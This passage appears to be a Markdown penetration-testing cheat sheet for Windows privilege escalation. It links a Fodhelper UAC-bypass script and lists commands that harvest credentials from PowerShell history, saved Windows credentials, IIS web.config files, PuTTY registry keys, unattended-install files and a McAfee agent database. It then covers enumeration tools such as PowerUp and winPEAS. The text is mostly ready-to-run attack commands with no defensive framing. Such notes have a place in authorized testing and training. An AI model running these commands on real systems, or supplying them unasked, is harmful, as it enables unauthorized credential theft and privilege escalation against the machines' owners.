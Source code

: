 ### FodhelperBypass
https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials
-> Powershell History  
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

-> EXploiting Saved Windows Credentials
```
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

-> IIS Configuration  
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
-> Retrieve Credentials from Software: PuTTY  
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

-> Unattended Windows Installations
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  
-> Identify  
```
dir /s *.db
```
-> McAfee Enterprise Endpoint Security - Credentials used during installation  

```
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

## Windows Enumeration Tools
-> PowerUp.ps1  
```
. .\PowerUp.ps1
Invoke-AllChecks
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1  

-> winPEASany.exe
```
winPEASany.exe
```
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS  

-> windows-privesc-check2.exe  
```
windows-privesc-check2.exe --dump -G
```
https://github.com/pentestmonkey/windows-privesc-check
